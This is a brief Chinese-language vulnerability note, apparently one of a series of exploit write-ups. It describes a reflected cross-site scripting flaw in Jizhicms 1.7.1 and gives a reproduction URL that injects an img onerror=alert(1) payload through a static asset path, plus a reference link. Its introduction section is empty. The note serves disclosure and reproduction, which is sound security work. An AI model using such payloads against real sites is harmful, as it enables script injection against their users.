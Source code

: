 # Jizhicms 1.7.1 反射型xss

## 一、漏洞简介

## 二、漏洞影响

Jizhicms 1.7.1

## 三、复现过程

```
http://www.baidu.com/static/default/assets/asset/img/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

```

![9.png](images/2020_05_26/d56572532cd04dcd97b8b17442b5292c.png)

## 四、参考链接

> https://xz.aliyun.com/t/7775#toc-2

